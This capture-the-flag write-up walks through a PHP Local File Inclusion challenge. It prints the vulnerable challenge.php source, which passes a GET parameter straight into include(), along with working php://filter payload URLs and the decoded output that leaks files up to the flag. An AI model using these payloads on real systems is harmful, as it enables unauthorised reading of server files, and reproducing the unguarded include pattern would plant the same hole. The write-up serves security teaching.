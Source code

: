 ### Vulnerability: Local File Inclusion (LFI)

### Summary

This challenge demonstrates a classic **Local File Inclusion** vulnerability, where the web application includes files based on user input via a GET parameter. The vulnerability can be escalated using PHP wrappers to read otherwise restricted files.


### Steps to Exploit

1. Initial Reconnaissance

Navigate to:  
[https://cybersecure-x-web2.chals.io/challenge.php](https://cybersecure-x-web2.chals.io/challenge.php)

The hyperlinks to the "home" and "about" pages reveal how the endpoint works:

/challenge.php?page=home


The `page` parameter dynamically includes PHP files based on the value provided.


2. Direct Access Blocked

Attempting direct access to restricted files like `flag.php` using:

/flag.php
/challenge.php?page=flag.php

Returns an error or access denied. This confirms there's some input filtering.

![image](https://github.com/user-attachments/assets/0480ba5b-65b5-4fe1-9bf1-397eef72a3fe)

3. Bypass Using PHP Wrapper

We can bypass restrictions using the **`php://filter`** wrapper, which allows reading files through a filter chain.

Accessing the main script in base64-encoded format:

[https://cybersecure-x-web2.chals.io/challenge.php?page=php://filter/read=convert.base64-encode/resource=challenge.php](https://cybersecure-x-web2.chals.io/challenge.php?page=php://filter/read=convert.base64-encode/resource=challenge.php)

Decoded `challenge.php`:
```php
<?php
function show_page($page) {
    // Sirf direct access block karna hai flag.php ka
    $basename = basename($page);

    if ($basename === 'flag.php' || $basename === 'flag') {
        die("<h2 style='color: red;'>🚫 Direct access to flag file is forbidden!</h2>");
    }

    include($page); // Ab yeh pure page ya php://filter trick ko allow karega
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CyberPortal</title>
    <style>
        body {
            background-color: #f4f6f7;
            font-family: Arial, sans-serif;
            text-align: center;
        }
        nav {
            background-color: #2c3e50;
            padding: 15px;
        }
        nav a {
            color: #ecf0f1;
            margin: 0 15px;
            text-decoration: none;
            font-weight: bold;
            font-size: 18px;
        }
        nav a:hover {
            text-decoration: underline;
        }
        .container {
            margin-top: 30px;
        }
    </style>
</head>
<body>

<nav>
    <a href="challenge.php?page=home.php">Home</a>
    <a href="challenge.php?page=about.php">About</a>
    <a href="challenge.php?page=contact.php">Contact</a>
</nav>

<div class="container">
<?php
if (isset($_GET['page'])) {
    $page = $_GET['page'];
    show_page($page);
} else {
    echo "<h1>Welcome to CyberPortal!</h1><p>Select a page from the navigation bar above.</p>";
}
?>
</div>

</body>
</html>
```
4. Read the Flag File (`flag.php`)

Next, we use the same technique to access the `flag.php` file:

[https://cybersecure-x-web2.chals.io/challenge.php?page=php://filter/read=convert.base64-encode/resource=flag.php](https://cybersecure-x-web2.chals.io/challenge.php?page=php://filter/read=convert.base64-encode/resource=flag.php)

Decoded `flag.php`:

```php
<?php
$flag = trim(file_get_contents(__DIR__ . '/this_is_a_very_secret_hidden_super_long_random_named_folder_xyz12345/flag.txt'));
if (!debug_backtrace()) {
    die("<h2 style='color: red;'>🚫 Direct access to this file is forbidden!</h2>");
}
echo $flag;
?>
```

This file contains a reference to a hidden folder and file.

5. Access Hidden Flag File

Using the leaked path from `flag.php`, we read the actual flag:

[https://cybersecure-x-web2.chals.io/challenge.php?page=php://filter/read=convert.base64-encode/resource=this\_is\_a\_very\_secret\_hidden\_super\_long\_random\_named\_folder\_xyz12345/flag.txt](https://cybersecure-x-web2.chals.io/challenge.php?page=php://filter/read=convert.base64-encode/resource=this_is_a_very_secret_hidden_super_long_random_named_folder_xyz12345/flag.txt)

#### Decoded `flag.txt`:

```text
flag{basic_lfi_successful}
```
